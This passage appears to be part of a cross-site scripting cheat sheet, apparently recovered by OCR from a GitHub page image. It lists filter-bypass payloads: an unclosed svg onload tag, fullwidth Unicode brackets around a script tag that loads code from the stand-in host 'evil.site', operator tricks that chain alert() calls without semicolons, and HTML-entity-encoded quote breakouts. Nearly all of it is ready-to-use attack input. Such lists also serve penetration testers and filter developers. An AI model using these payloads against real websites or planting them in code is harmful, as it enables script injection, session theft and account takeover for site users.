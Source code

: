 ### Bypass ">" using nothing

You don't need to close your tags.

```javascript
<svg onload=alert(1)//
```

### Bypass "<" and ">" using ＜ and ＞

Unicode Character U+FF1C and U+FF1E

```javascript
＜script/src=//evil.site/poc.js＞
```

### Bypass ";" using another character

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```

### Bypass using HTML encoding

HTML entities
```javascript
&apos;-alert(1)-&apos;
```

HTML hex without zeros
```javascript
&#x27-alert(1)-&#x27
```

HTML hex with zeros
```javascript
&#x00027-alert(1)-&#x00027
```

HTML dec without zeros
```javascript
&#39-alert(1)-&#39
```
